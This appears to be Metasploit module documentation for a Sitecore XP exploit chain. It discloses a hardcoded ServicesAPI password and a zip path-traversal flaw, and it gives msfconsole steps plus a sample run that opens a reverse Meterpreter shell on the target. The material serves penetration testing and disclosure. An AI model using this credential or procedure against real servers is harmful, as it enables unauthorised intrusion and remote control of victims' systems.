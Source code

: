 ## Vulnerable Application

The Sitecore Experience Platform (XP) is flagship CMS product.
Provides comprehensive digital marketing tools, view of customer data and many other features.
Sitecore deploys multiple default service accounts when installing, among them ServicesAPI.
The versions from 10 to 10.4 have hardcoded password for this account - the password is letter b (CVE-2025-34509).
This account is used to gain access and exploit additional vulnerability - path traversal in zip extraction (CVE-2025-34510).
This module exploits both vulnerabilities to gain remote code execution by uploading malicious ASPX into root directory of webserver.

### Installation

The Sitecore XP can be downloaded from [here](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform).
Please note that a license is required for successful installation.


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/http/sitecore_xp_cve_2025_34510`
1. Do: `set RHOSTS [Sitecore XP IP address]`
1. Do: `set VHOST [Sitecore XP hostname]`
1. Do: `set IDENTITY_VHOST [hostname of Sitecore XP identity server]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options


### VHOST

The hostname of Sitecore XP.
When installed, Sitecore XP deploys multiple vhosts, among them is the Sitecore XP host, where a user can access majority of functions.


### IDENTITY_VHOST

The Sitecore XP uses separate vhost for "identity host", which is used when user is authenticating and asking for session data.
If you are not sure about `IDENTITY_VHOST`, you can visit `https://[sitecore instance]/identity/login/shell/SitecoreIdentityServer`.
The hostname of page where the URL will redirect you can be used as `IDENTITY_VHOST`.

## Scenarios

```
msf exploit(windows/http/sitecore_xp_cve_2025_34510) > set IDENTITY_VHOST sitecorepocidentityserver.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34510) > run verbose=true
[*] Started reverse TCP handler on 192.168.3.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Sitecore version detected 10.3.0, which is vulnerable
[*] Sending stage (203846 bytes) to 10.5.132.138
[*] Meterpreter session 2 opened (192.168.3.7:4444 -> 10.5.132.138:50530) at 2025-08-26 13:05:53 +0200

meterpreter > sysinfo
Computer        : WIN11_22H2_0800
OS              : Windows 11 22H2 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: IIS APPPOOL\sitecorepocsc.dev.local
```
